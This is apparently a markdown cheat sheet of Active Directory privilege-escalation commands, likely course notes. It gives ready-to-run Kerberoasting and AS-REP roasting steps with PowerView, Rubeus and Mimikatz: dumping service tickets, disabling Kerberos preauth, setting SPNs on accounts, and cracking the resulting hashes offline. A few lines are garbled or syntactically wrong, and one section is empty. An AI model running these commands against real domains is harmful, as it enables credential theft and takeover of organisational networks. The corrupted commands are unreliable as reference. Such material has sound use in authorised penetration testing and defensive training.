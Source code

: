 ## Privileges Escalation in AD


### Kerberoasting
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` fileasd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose             
# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast : Request Encrypted AS-REP for Offline Brute Force
```powershell


```
### Targeted Kerberoasting Set SPN
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity supportuser | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity support1user | Set @{serviceprincipalname='ops/whatever1'}
```
